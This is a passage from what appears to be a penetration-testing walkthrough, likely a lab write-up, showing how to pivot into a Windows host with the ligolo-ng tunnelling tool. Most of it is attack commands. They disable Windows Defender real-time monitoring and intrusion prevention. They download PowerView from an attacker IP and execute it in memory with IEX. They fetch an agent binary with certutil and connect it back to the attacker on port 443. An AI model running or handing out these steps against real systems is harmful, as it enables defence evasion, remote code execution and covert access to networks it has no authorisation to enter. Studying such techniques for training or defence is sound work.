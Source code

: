 **Windows Machine:**

netstat -an | findstr "192.168."

Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true

(New-Object System.Net.WebClient).DownloadString(‘http://<your IP Here>/powerview.ps1') | IEX

Get-NetForestTrust

We notice that a new subnet is being interacted with and new domain discovery after doing the above enumeration techniques.

![](https://miro.medium.com/v2/resize:fit:569/1*Vxt31tzBYyjpH4T3Uf2MXQ.png)

Netstat output

![](https://miro.medium.com/v2/resize:fit:700/1*6O8Msl3Uc_PcqvkkP0NzMw.png)

Download the windows agent that matches your targets architecture in my case its 64-bit and then push it onto the machine the same way we did above but this time slightly different steps since this is a windows machine..

[

## Release v0.4.3 · nicocha30/ligolo-ng

### An advanced, yet simple, tunneling/pivoting tool that uses a TUN interface. - Release v0.4.3 · nicocha30/ligolo-ng

github.com



](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.4.3?source=post_page-----cf828e59e740--------------------------------)

**On your attacker machine:**

sudo wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Windows_64bit.zip

You might already have your python web server still running from before so make sure you have the same file in the directory you are serving from.

sudo python -m http.server 80

**On the Windows machine:**

certutil.exe -urlcache -split -f "http://<Your IP Here>:80/win-agent.exe"

![](https://miro.medium.com/v2/resize:fit:700/1*4LRo5K3WR6FmrM_csCv_yw.png)

Now lets establish a connection with the agent:

./win-agent.exe -connect <your IP here>:443 -ignore-cert

You should see two sessions available now when running the _session_ command in ligolo.

